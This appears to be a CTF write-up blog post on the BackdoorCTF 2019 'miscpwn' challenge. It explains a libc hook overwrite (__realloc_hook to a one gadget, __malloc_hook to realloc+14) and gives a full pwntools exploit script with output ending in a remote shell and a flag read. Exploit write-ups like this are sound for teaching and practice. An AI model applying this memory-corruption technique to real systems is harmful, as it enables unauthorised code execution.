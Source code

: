 ```yaml
---
layout: post
title:  "BackdoorCTF 2019: miscpwn"
date:   2019-10-27 23:30:02 +0800
categories: pwn
tags: BackdoorCTF
---
```


I played this CTF with 0x1 and got 6th place.

This was almost the exact same challenge as HITCON CTF 2019 Qualifer's Trick or Treat. Only 5 people solved it including me. I am not sure why..

### Challenge

>Trick-or-treat Revenge.
>
>[http://backdoor.static.beast.sdslabs.co/static/trick-repeat/miscpwn](http://backdoor.static.beast.sdslabs.co/static/trick-repeat/miscpwn)
>
>[http://backdoor.static.beast.sdslabs.co/static/trick-repeat/libc.so.6](http://backdoor.static.beast.sdslabs.co/static/trick-repeat/libc.so.6)
>
>`nc 51.158.118.84 17004`
>
>Flag format: CTF{...}
>
>Created by: [Nipun Gupta](https://backdoor.sdslabs.co/users/fs0ciety)
>
>No. of Correct Submissions: 5

### Solution

I won't go into much detail about this challenge since you can just read my writeup for Trick or Treat [here](/2019-10-14-hitconctf-2019-trick-or-treat/). 

The idea with this one is that you can malloc a chunk of size 10000000 and get the chunk mmapped and aligned to libc, but you are only allowed to perform one out of bounds relative write. After the write, there is a call to `malloc(0xa)` followed by `exit(0)`. Therefore, we have no choice but to overwrite `__malloc_hook`, however none of the normal one gadgets worked.

The way I went about it was to realize that right before `__malloc_hook` is `__realloc_hook`. The binary lets us write 0x10 bytes, so I solved it by first overwriting `__realloc_hook` to a working one gadget, and then overwrote `__malloc_hook` to `realloc+14`. This made it so that the constraints for one of the gadgets was suddenly met.

My exploit script is shown below:
```python
#!/usr/bin/env python2

from pwn import *

elf = ELF('./miscpwn')
libc = ELF('./libc.so.6')

HOST, PORT = '51.158.118.84', 17004

def start():
	if not args.REMOTE:
		print "LOCAL PROCESS"
		return process('./miscpwn')
	else:
		print "REMOTE PROCESS"
		return remote(HOST, PORT)

def get_base_address(proc):
	return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(p)
    script += "set $_base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    gdb.attach(p,gdbscript=script)

context.terminal = ['tmux', 'new-window']
p = start()
if args.GDB:
	debug([0x13b9])

# Malloc a chunk such that it gets mmapped aligned to Libc
p.recv()
p.sendline('10000000')

# Remote binary behaves differently idek
if args.REMOTE:
	p.recvline()

# Calculate addresses required
leak = int(p.recvline().strip(), 16)
libc.address = leak + 0x989ff0
realloc_hook = libc.sym['__realloc_hook']
hook_offset = realloc_hook - leak

log.info('Chunk: ' + hex(leak))
log.info('Libc base: ' + hex(libc.address))
log.info('__realloc_hook: ' + hex(realloc_hook))
log.info('Offset: ' + hex(hook_offset))

# Set the offset correctly so we reach __realloc_hook
p.recv()
p.sendline(hex(hook_offset))

# Overwrite __realloc_hook with one gadget, overwrite __malloc_hook with realloc+14
p.recv()
p.send(p64(libc.address + 0x501e3) + p64(libc.sym['realloc'] + 14))

p.interactive()
```
```sh
vagrant@ubuntu1810:/ctf/practice/backdoorctf/miscpwn$ ./exploit.py REMOTE
[*] '/ctf/practice/backdoorctf/miscpwn/miscpwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/practice/backdoorctf/miscpwn/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
REMOTE PROCESS
[+] Opening connection to 51.158.118.84 on port 17004: Done
[*] Chunk: 0x7f47cefef010
[*] Libc base: 0x7f47cf979000
[*] __realloc_hook: 0x7f47cfb5dc28
[*] Offset: 0xb6ec18
[*] Switching to interactive mode

$ ls
Dockerfile
beast.toml
flag.txt
ld-2.28.so
libc.so.6
miscpwn
miscpwn.c
post-build.sh
public
setup.sh
$ cat flag.txt
CTF{REDACTEDREDACTEDREDACTED}
$  
```